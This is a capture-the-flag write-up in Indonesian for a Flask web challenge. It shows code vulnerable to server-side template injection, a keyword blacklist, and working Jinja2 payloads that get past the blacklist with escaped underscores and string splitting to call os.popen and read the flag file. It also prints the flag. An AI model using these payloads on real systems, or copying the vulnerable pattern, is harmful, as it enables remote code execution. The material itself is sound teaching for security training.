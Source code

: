 # Flasksibel

Author: daffainfo

Category: Web

Flag: `HC5{4P4k4H_k4L14N_b4Ru_M3ng3N4l_55T1???}`

## Description
Let's ping the website!!

## Difficulty
Advanced

## Solution
Mari kita analisis terlebih dahulu source code yang ada

```py
@app.route('/', methods=['GET', 'POST'])
def index():
    username = ''
    
    if request.method == 'POST':
      username = request.form['username'] or ''
      username = sanitize_input(username)
      if not username:
        return jsonify({'error': 'Forbidden Words'})
	
    template = '''<!DOCTYPE html>
    <html>
    <body>
    <form action="" method="POST">
      Username: <input name="username"> <br>
      <input type="submit" value="Preview!">
    </form>
    <p>{}</p>
    </body>
    </html>'''.format(username)
    return render_template_string(template)
```

Terdapat 1 endpoint bernama `/` yang menerima 2 method yaitu `POST` dan `GET`. Kemudian jika kita memasukkan POST method, maka website akan mengambil value dari parameter bernama `username` kemudian dilakukan sanitasi terlebih dahulu dengan fungsi `sanitize_input`

```py
blacklist = ["os", "popen", "subprocess", "_", "mro", ".", "globals", "locals", "config", "builtins", "import"]

def sanitize_input(name):
    for word in blacklist:
        if word in name:
            return False
    return name
```

Jika pada input kita mengandung kata-kata yang ada pada array bernama `blacklist`, maka fungsi `sanitize_input` akan mereturn nilai `False` dan akan muncul tulisan `Forbidden Words`

![denied](images/denied.png)

Kemudian jika selesai dicek hasil input kita, maka hasil input kita akan dirender dan ditampilkan pada website

![input](images/input.png)

Jika dilihat kode sumbernya, maka kode sumber ini rentan terhadap SSTI (Server Side Template Injection). Untuk melakukan testing apakah memang benar rentan atau tidak bisa menggunakan payload dibawah

```
{{7*7}}
```

Jika outputnya `49`, maka terbukti rentan

![testing](images/testing.png)

Mari kita eksploitasi sehingga dari kerentanan SSTI bisa dieskalai sehingga bisa menjalankan comand-command yang berbahaya (Remote Code Execution)

Cara paling mudah untuk mengerjakan soal CTF yang berhubungan dengan SSTI adalah dengan menggunakan payload yang ada pada [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) dan dimodifikasi payloadnya agar bisa disesuaikan dengan soal (Namun sangat disarankan untuk belajar python terlebih dahulu untuk bisa mengerti bagian tiap payload)

Payload yang digunakan adalah seperti gambar dibawah

```
{{request["application"]["\x5f\x5fglob"+"als\x5f\x5f"]["\x5f\x5fbuilt"+"ins\x5f\x5f"]["\x5f\x5fimp"+"ort\x5f\x5f"]("o"+"s")["po"+"pen"]("ls")["read"]()}}
```

Payload diatas digunakan untuk mengimport modul `os` dan memanggil fungsi `popen` agar bisa mengeksekusi sebuah command. Untuk menghindari penggunaan `_` karena diblacklist, maka digunakanlah karaketer `\x5f`. Dan juga terdapat beberapa kata yang diblacklist, namun untuk membypassnya displit menggunakan `+`

![ls](images/ls.png)

Maka, untuk membaca filenya, maka yang dibutuhkan adalah mengganti command `ls` menjadi `cat /flag*` (Tidak menggunakan `flag.txt` karena mengandung `.` yaitu karakter yang diblacklist)

```
{{request["application"]["\x5f\x5fglob"+"als\x5f\x5f"]["\x5f\x5fbuilt"+"ins\x5f\x5f"]["\x5f\x5fimp"+"ort\x5f\x5f"]("o"+"s")["po"+"pen"]("cat /flag*")["read"]()}}
```

![flag](images/flag.png)